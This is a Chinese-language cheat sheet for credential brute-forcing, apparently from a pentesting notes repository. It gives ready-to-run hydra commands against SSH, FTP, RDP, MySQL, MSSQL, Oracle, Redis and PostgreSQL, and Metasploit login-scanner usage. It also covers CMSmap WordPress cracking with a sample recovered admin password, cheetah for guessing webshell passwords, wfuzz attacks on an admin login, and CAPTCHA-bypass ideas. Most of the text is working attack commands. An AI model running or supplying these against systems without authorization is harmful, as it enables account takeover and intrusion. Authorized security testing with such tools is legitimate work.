

### 1、文件和目录穷举

- **Pker多线程后台极速扫描工具V2.01修正版**
- **御剑**

- **dirbuster**

### 2、常见的端口服务

```
http 80
https 443
ftp 21
ssh 22
mysql 3306
mssql 1433
rsync 873
oracle 1521
mongo 28017
redis 6379
tomcat 8080
smtp 25
POP3 110
dns 53
telent 23
vnc 5900
pcanywhere 5632
Apache/Tomcat/Nginx/Axis2/resin/jboss 80|8080
WebLogic 7001
Jenkins 8080 8089
SNMP 161
Zabbix 8069
elasticsearch 9200 9300
rdp 3389
```

### 3、[穷举爆破神器hydra](https://www.thc.org/)

下载地址：https://www.thc.org/releases/hydra-8.4.tar.gz

常见参数：

```bash
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
```

支持的服务和协议：

```bash
adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

常见协议爆破：

ssh

```bash
hydra -L /root/user -P /root/passwd ssh://192.168.1.0 -f -o /root/crack.txt -V
```

ftp

```bash
hydra -L /root/user -P /root/passwd ftp://192.168.1.0 -f -o /root/crack.txt -V
```

rdp

```bash
hydra -L /root/user -P /root/passwd rdp://192.168.1.0 -f -o /root/crack.txt -V
```

mssql

```bash
hydra -L /root/user -P /root/passwd mssql://192.168.0.129 -f -o /root/crack.txt -v
```

mysql

```bash
hydra -L /root/user -P /root/passwd mysql://192.168.0.129 -f -o /root/crack.txt –v -s 3306
```

oracle

```bash
hydra -P /root/passwd oracle://192.168.0.129 -f -o /root/crack.txt –v
```

redis

```bash
hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 redis
```

postgresql 弱口令检测

```bash
hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 postgresql
```

指定多个ip进行穷举

```bash
hydra -L /root/user -P /root/passlist -M /root/ip.txt  -V -o /root/crack mysql -t 16
hydra -L /root/user -P /root/passlist ssh://192.168.0.112 -vV -f -o /root/crack.txt
hydra -L /root/user -P /root/passlist ftp://192.168.0.106 -vV -f -o /root/crack.txt
hydra -l sa -P /root/passlist mssql://192.168.0.103 –vV
```

**可视化工具 xhydra**

### 3、kali metasploit穷举模块使用

模块示例

```bash
auxiliary/scanner/ftp/ftp_login
auxiliary/scanner/ssh/ssh_login
auxiliary/scanner/telnet/telnet_login
auxiliary/scanner/smb/smb_login
auxiliary/scanner/mssql/mssql_login
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/oracle/oracle_login
auxiliary/scanner/postgres/postgres_login
auxiliary/scanner/vnc/vnc_login
auxiliary/scanner/pcanywhere/pcanywhere_login
auxiliary/scanner/snmp/snmp_login
```

用法

```bash
msfconsole

msf6 > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /root/passlist.txt
PASS_FILE => /root/passlist.txt
msf6 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_login) > run

set 设置
show options 查询设置
back 返回
info 查询模块的信息
exploit/run 运行模块
```

### 4、邮箱穷举

MailCracker

 

**通用邮箱穷举**

```bash
baopo.py 163.txt email.txt passwd.txt
```

### 5、网站穷举

burpsuite 通用破解方法

- 网站会员批量登录穷举
- 指定后台密码穷举

多线程后台穷举程序

- phpmyadmincrack 单线程
- phpMyAdmin暴力破解v1.3（单线程）
- phpmyadmin 多线程密码枚举工具

**常见cms穷举**

[wordpress穷举](https://github.com/dionach/CMSmap)

git clone https://github.com/dionach/CMSmap

```
 cmsmap.py http://www.wordpress.com
 cmsmap.py https://example.com -f W -F --noedb -d
 cmsmap.py https://example.com -i targets.txt -o output.txt
 cmsmap.py https://example.com -u admin -p passwords.txt
 cmsmap.py -k hashes.txt -w passwords.txt
 cmsmap.py http://www.wordpress.com -u admin -p /root/password.txt –v
 	Valid ADMIN Credentials! Username: admin Password: moon123456
```

登录

```
http://www.wordpress.com/wp-login.php
```

**批量扫描的方法**

```bash
cmsmap.py -i /root/wp.txt -u admin -p /root/password.txt -v -o w.txt 
```

添加hosts

```bash
echo '192.168.0.105 www.wordpress.com'  >>/etc/hosts
```

**一句话密码穷举**

cheetah

```
cheetah.py -u http://orz/orz.php
cheetah.py -u http://orz/orz.jsp -r post -n 1000 -v
cheetah.py -u http://orz/orz.asp -r get -c -p data/pwd.list
cheetah.py -u http://orz/orz -w aspx -s iis -n 1000
cheetah.py -b url.list -c -p pwd1.list pwd2.list -v
cheetah.py -u http://www.yijuhua.com/a.php -n 1000 -v -p data/pwd.list
```

**webshell密码破解**

​           burpsuite2.0 通过破解办法

```
http://www.yijuhua.com/b.asp
http://www.yijuhua.com/b.php
http://www.yijuhua.com/b.aspx
```

**多线程百万密码测试指定后台破解**

- 密码字典：csdnpass.txt

- url：http://www.blogs.com/admin/index.php?action=login

wfuzz用法:

```bash
wfuzz -c -z file,/pentest/csdnpass.txt --hc 200 -u http://www.blogs.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
```

**Discuz! 会员帐号破解**

**有验证码后台的破解方法**

- 验证码cookie是否重复利用	
-  验证码是否可以重复利用	
-  验证码是否可以识别